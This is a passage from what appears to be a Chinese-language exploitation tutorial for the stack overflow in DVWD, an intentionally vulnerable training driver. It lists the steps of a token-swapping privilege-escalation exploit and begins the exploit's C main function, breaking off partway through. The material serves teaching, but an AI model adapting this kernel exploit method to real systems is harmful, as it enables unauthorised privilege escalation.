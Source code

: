 当然,在使用这段shellcode前,需要替换进程的PID来提升特权,在SYSEXIT后分别使用EIP和ESP值,在发送buffer前我们将用代码实现它.

5. 利用方法论
--------

* * *

利用的过程如下:

1.  创建一块可执行的内存区域并将上一段shellcode（用于交换令牌）放入区域中。
2.  类似地,创建一块可执行的内存区域并将shellcode（在提权之后执行）放入其中。
3.  更新第一段shellcode：提升进程的PID,在SYSEXIT后使用EIP,在SYSEXIT后使用ESP.(4]中采用了此方法.
4.  为我们的buffer构造一块匿名映射区域
5.  用第一段shellcode的地址填充这块映射区域
6.  用此方式（最后4字节位于一块未被映射的内存区域）调节buffer指针
7.  将buffer发送到驱动(用the DEVICEIO_DVWD_STACKOVERFLOW IOCTL).

6.利用代码
------

* * *

这是利用程序的主函数.鉴于上一个利用程序,它应该相当易懂:

```
VOID TriggerOverflow32(VOID) {

 HANDLE hFile;
 DWORD dwReturn;
 UCHAR* map;
 UCHAR *uBuff = NULL;
 BOOL ret;
 ULONG_PTR pShellcode;

 // Load the Kernel Executive ntoskrnl.exe in userland and get some 
 // symbol's kernel address
 if(LoadAndGetKernelBase() == FALSE)
  return;


 // Put the shellcodes in executable memory
 mapShellcodeSwapTokens = (UCHAR *)CreateUspaceExecMapping(1);
 mapShellcodePayload    = (UCHAR *)CreateUspaceExecMapping(1);

 memset(mapShellcodeSwapTokens, '\x00', GlobalInfo.dwAllocationGranularity);
 memset(mapShellcodePayload, '\x00', GlobalInfo.dwAllocationGranularity);

 RtlCopyMemory(mapShellcodeSwapTokens, ShellcodeSwapTokens, sizeof(ShellcodeSwapTokens));
 RtlCopyMemory(mapShellcodePayload, ShellcodePayload, sizeof(ShellcodePayload));


 // Added
 printf("[~] Update Shellcode with PID of the process...\n");
 if(!MajShellcodePid(L"DVWDExploit.exe")) {
  printf("[!] An error occured, exitting...\n");
  return;
 }

 printf("[~] Update Shellcode with EIP to use after SYSEXIT...\n");
 if(!MajShellcodeEip()) {
  printf("[!] An error occured, exitting...\n");
  return;
 }

 printf("[~] Update Shellcode with ESP to use after SYSEXIT...\n");
 if(!MajShellcodeEsp()) {
  printf("[!] An error occured, exitting...\n");
```